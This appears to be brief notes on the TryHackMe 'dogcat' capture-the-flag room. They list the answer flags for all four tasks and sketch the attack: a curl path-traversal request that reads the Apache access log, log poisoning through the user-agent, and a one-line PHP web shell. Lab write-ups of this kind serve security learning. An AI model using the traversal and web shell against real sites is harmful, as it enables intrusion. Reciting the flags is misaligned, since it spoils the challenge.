 # dogcat
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

[https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

---

# Task 1 - Dogcat
I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

This machine may take a few minutes to fully start up.

## Answer the questions below

*What is flag 1?*
`THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`
*What is flag 2?*
`THM{LF1_t0_RC3_aec3fb}`
*What is flag 3?*
`THM{D1ff3r3nt_3nv1ronments_874112}`
*What is flag 4?*
`THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`


# Notes

LFI through:
`curl -s "http://$IP/?view=dog/../../../../../../../var/log/apache2/access.log&ext="`

Poison access log via user-agent for rce

make exploit.py



<?php system($_GET['cmd']);?>
